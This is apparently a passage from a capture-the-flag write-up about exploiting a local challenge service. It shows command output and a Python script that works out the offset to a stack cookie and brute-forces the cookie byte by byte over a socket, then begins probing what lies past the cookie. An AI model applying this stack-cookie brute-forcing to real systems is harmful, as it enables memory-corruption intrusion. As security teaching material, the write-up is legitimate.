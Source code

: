 Running this a few times yields different results:

```
hackbox:exploit1:% python l.py
Memory space used: 3992 bytes
97 Cookie corrupted
hackbox:exploit1:% python l.py
Memory space used: 3979 bytes
110 Cookie corrupted
hackbox:exploit1:% python l.py
Memory space used: 3997 bytes
92 Cookie corrupted
```

Each time the exploit runs a different amount of memory space is used and also the number of A's that need to be sent to overwrite the stack cookie differ. After some puzzling it turns out that the number of A's that need to be sent is equal to 4089 - memory space used. The last A sent then overwrites the stack cookie.

Now we know how to calculate the number of A's required to reach the stack cookie we can try to brute-force the stack cookie value, trying all values for the first byte of the stack cookie.

```
from sock import Sock
s = Sock('127.0.0.1',1235)
l = 0
s.read_until('[2] Memory management\r\n')
s.send('2\r')
r = s.read_until('[2] Memory management\r\n')
used = int(r.split('\r\n')[1].split()[-2])
i = 4088 - used
print "Stack cookie is at offset: %s" % i

cookie = ''
for x in range(60,256):
    s.send('1\r')
    s.read_until('Token can only contain the characters [A-Z/a-z/0-9]\r\n\r\n')
    if not cookie:
        d = 'A'*i
        s.send(d + cookie + chr(x) + '\r')
        o = s.read_line()
        print "Bruting cookie", i, x, repr(o)
        if 'Welcome' in o:
            cookie += chr(x)
            print "Cookie found: ", repr(cookie)
            break
    r = s.read_until('[2] Memory management\r\n')
```

Now the value of the stack cookie can be brute-forced. And we can overwrite memory. Next step is to figure out what to overwrite.

If we overwrite one byte after the stack cookie, for example with chr(16) we get a new error:

```
The length is not equal to 8 anymore. It is found to be 16 now.
```
